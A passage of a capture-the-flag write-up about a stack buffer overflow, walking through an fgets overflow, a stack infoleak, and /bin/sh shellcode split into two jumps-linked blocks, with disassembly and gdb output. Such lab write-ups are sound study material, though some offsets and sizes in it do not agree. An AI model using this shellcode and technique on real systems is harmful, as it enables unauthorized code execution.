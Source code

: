 So we can clearly see there is a buffer overflow bug with the fgets call. It is scanning in 32 (0x20) bytes into a 0x3 byte space (since it is at bp-0x3, and there's nothing below it on the stack). Since there is nothing else on the stack, and we have more than `0x10` bytes worth of overflow we should be able to reach the return address just fine.

So with that, we have an executable stack, a buffer overflow that grants us control of the return address, and a stack infoleak (which we can use to figure out the address of anything within that memory region, by using it's offset). The easy thing to do would be to just push shellcode to the stack, and call it. However the issue here it we don't have a single continuous block of memory to store it in. The biggest one we have is the 0x20 bytes from the goodbye call, however that one has to have an 0x8 byte address 11 bytes in to write over the return address, leaving us with onlu 21 bytes to work with across two separate blocks. What we will need to do here, is write/modify some custom shellcode to specifically fit in the multiple discontinuous chunks we have. I just managed to split my shellcode into two different 0xf (15) byte blocks, and stored them in inp0 and inp1, and just called inp0 using the infoleak. We already know from what we previously did that the offset from the infoleak we got to our second input is +0x8 bytes.

For writing the custom shellcode, we will be splitting up the shellcode into these two blocks. I did not write this shell code originally, I only modified it to fit this one particular use case (I just threw in a jmp instruction). The shellcode came from here: https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/:


block 0:
```
  400080:    48 bf d1 9d 96 91 d0     movabs rdi,0xff978cd091969dd1
  400087:    8c 97 ff
  40008a:    e9 0c 00 00 00           jmp    40009b <_start+0x1b>
```

This block just executes two different instructions. The first just moves the hex string 0xff978cd091969dd1 (which is just the string /bin/sh\x00 noted) into the rdi register, and then calls the relative jump function. This will just jump x amount of instructions, where x is it's argument (which in this case it's 0xc, which is 12). To figure out how many instructions to jump, I examined the amount of instructions interpreted (since most data can be interpreted as an instruction, and our jmp call will) to see how many instructions I would need to jump ahead, and a bit of trial and error untill I got it right. We can see where the shellcode will jump in gdb (will help a lot if you use a script in this part):

```
gef➤  search-pattern 0xd091969dd1bf48
[+] Searching '0xd091969dd1bf48' in memory
[+] In '[heap]'(0x55b195217000-0x55b195238000), permission=rwx
  0x55b1952172e0 - 0x55b1952172fc  →   "\x48\xbf\xd1\x9d\x96\x91\xd0[...]"
[+] In '[stack]'(0x7ffcc0c31000-0x7ffcc0c52000), permission=rwx
  0x7ffcc0c508e8 - 0x7ffcc0c50904  →   "\x48\xbf\xd1\x9d\x96\x91\xd0[...]"
gef➤  x/2g 0x7ffcc0c508e8
0x7ffcc0c508e8:    0x8cd091969dd1bf48    0x0000000011e9ff97
gef➤  x/3i 0x7ffcc0c508e8
   0x7ffcc0c508e8:    movabs rdi,0xff978cd091969dd1
   0x7ffcc0c508f2:    jmp    0x7ffcc0c50908
   0x7ffcc0c508f7:    add    BYTE PTR [rdx+0x5b],ah
gef➤  x/5i 0x7ffcc0c50908
   0x7ffcc0c50908:    nop
   0x7ffcc0c50909:    xor    esi,esi
   0x7ffcc0c5090b:    mul    esi
   0x7ffcc0c5090d:    add    al,0x3b
   0x7ffcc0c5090f:    neg    rdi
```

